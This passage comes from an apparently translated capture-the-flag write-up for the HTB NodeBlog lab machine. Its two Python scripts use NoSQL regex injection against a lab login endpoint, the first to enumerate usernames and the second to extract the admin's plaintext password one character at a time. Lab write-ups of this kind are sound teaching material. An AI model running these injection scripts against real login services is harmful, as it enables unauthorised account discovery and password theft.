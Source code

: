             if 'Invalid Password' in resp.text:
                payload = {'user': f'{user}{c}', 'password': '0xdf'}
                resp = requests.post('http://10.10.11.139:5000/login', json=payload)
                if 'Invalid Password' in resp.text:
                    print(f'\r{user}{c}')
                brute_username(f'{user}{c}')
    
    
    brute_username('')
    print('\r', end='')
    

它是一个递归函数，它尝试当前字符串和一个新字符，并使用正则表达式搜索来查看是否有用户以该模式开头。如果有，它会检查该新字符串是否为有效用户，如果是，则打印它。然后，它继续以任何一种方式检查下一个字符。例如，如果同时有管理员和管理员，那么捕获这一点很重要。

事实证明，只有一个用户，管理员：

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fnodeblog-brute-users.gif)

我将编写另一个快速脚本，该脚本将采用用户名并获取密码。我最初跳过了这个，假设密码将是我还不需要的哈希值。直到后来我才发现这是一个明文密码，我需要解决这个盒子。

这一次，我知道给定用户只有一个有效的密码，所以我可以使用一个简单的循环，直到我找到它：`while`

    #!/usr/bin/env python3
    
    import requests
    import string
    import sys
    
    
    user = sys.argv[1]
    password = ''
    found = False
    
    while not found:
        for c in string.ascii_letters + string.digits + '!@#$%^&,':
            print(f'\r{password}{c:<50}', end='')
            payload = { 'user': user,
                        'password':
                           { '$regex' : f'^{password}{c}' },
                      }
            resp = requests.post('http://10.10.11.139:5000/login', json=payload)
    
            if not 'Invalid Password' in resp.text:
                payload = {'user': user, 'password': password + c}
                resp = requests.post('http://10.10.11.139:5000/login', json=payload)
                password += c
                if not 'Invalid Password' in resp.text:
                    print(f'\r{password}')
                    found = True
                break
    

它很快就能找到密码：

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fnodeblog-brute-password.gif)

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2022/01/10/htb-nodeblog.html)